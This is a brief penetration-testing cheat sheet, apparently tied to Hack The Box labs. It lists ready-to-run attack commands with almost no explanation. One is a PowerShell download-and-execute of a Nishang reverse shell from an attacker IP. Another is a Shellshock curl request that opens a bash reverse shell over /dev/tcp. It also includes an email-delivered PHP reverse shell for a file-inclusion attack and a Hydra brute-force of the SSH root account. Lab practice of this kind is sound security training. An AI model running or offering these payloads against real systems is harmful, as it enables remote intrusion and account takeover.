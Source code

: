 # Exploit

## Reverse powershell using Nishang
```
cp ~/post-exploit/nishang/Shells/Invoke-PowerShellTcp.ps1 ~/HTB/chatterbox/
powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')"
```

## Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' http://192.168.90.59/cgi-bin/test.sh
```

## LFI
### Send email
```
sendemail -t asterisk@localhost -o message-file=php-reverse-shell.php -u pwnd -s 10.10.10.7:25 -f flame_n@htb.eu
```

## Bruteforce
### Hydra
SSH
```
hydra -l root -P /usr/share/wordslists/metasploit/unix_passwords.txt ssh://192.168.4.4:22 -t 4 -V
```
### scanner/ssh/ssh_login

## https://digi.ninja/blog/when_all_you_can_do_is_read.php
